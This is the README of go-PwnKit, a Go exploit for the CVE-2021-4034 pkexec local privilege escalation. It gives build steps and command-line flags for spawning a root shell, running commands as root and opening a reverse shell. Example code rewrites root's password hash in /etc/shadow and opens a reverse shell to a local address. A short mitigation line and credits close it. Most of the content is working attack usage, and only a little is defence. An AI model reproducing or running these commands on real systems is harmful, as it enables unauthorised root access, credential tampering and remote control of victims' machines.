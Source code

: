# go-PwnKit

A pure-Go implementation of the **CVE-2021-4034 PwnKit** exploit.

The exploit use `syscall.ForkExec` to survive end of main program.



## Installation

```bash
git clone git@github.com:OXDBXKXO/go-PwnKit.git
cd go-PwnKit
make
```



As the exploit relies on a malicious shared library, a **PWN.so** file is generated from ***payload.go*** and embed in the resulting `exploit` executable.

The ***Makefile*** uses `sed` to temporarily change the package name of the ***payload.go*** file to `main`, hence making this ***Makefile*** Linux-only.

As the Go payload is not as reliable as the C one, the ***Makefile*** will compile the exploit with the C payload by default. You can choose to compile with the Go payload using `make build_go`.



## Usage

#### As standalone executable

```
$> ./exploit -h
Usage of ./exploit:
  -c string
        Run command as root in separate process
  -o    Pipe output of forked command to terminal
  -r string
        Open a reverse-shell in separate process. Format: ip:port
  -s    Spawn a root shell
```

The exploit can either be used with a command (`-c`), as a reverse-shell (`-r`) or spawn a root shell (`-s`).



```bash
$> ./exploit -s
sh-5.1#
```

```bash
$> ./exploit -c "cat /etc/passwd"
```

```bash
$> ./exploit -o -c "cat /etc/passwd"
[/etc/passwd content]
```



#### As package

```go
package main

import (
    "github.com/OXDBXKXO/go-PwnKit"
)

func main() {
    // Change root password to 'password'
    gopwnkit.Command(`sed -i -e 's,^root:[^:]\+:,root:$6$eymNRCK.KxwDM6vu$idH0swGW1nsnLb8fT1QibUho5xg7uGJT7fuiheLZHIi9M4gTSk0qIOlUIk2Mm9/Nz5C.T4GkgkmLcK5BtOPkS0:,' etc/shadow`, false)

    // Open a reverse-shell
    gopwnkit.RevShell("127.0.0.1:1337")
}

```

Note as `Command` and `RevShell` use `syscall.ForkExec` to run the exploit, resulting processes are separate from the main program and survive its end.



## Demonstration

```bash
$> ./exploit
sh-5.1# id
uid=0(root) gid=0(root) groups=0(root)
sh-5.1#
```



## Mitigation

Patch `pkexec` if possible, otherwise disable the ***setuid*** bit on the `pkexec` binary.

```bash
chmod 0755 /usr/bin/pkexec
```



## Credits

This project is inspired by several other PoCs of the **PwnKit** exploit.



Thanks to [An00bRektn](https://github.com/An00bRektn/CVE-2021-4034) for the straight-forward exploit setup.

Thanks to [PaterGottesman](https://github.com/PeterGottesman/pwnkit-exploit) and [berdav](https://github.com/berdav/CVE-2021-4034) for the clarity of the exploit explanation.

Thanks to [dzonerzy](https://github.com/dzonerzy/poc-cve-2021-4034) for the *GIO_USE_VFS* trick.
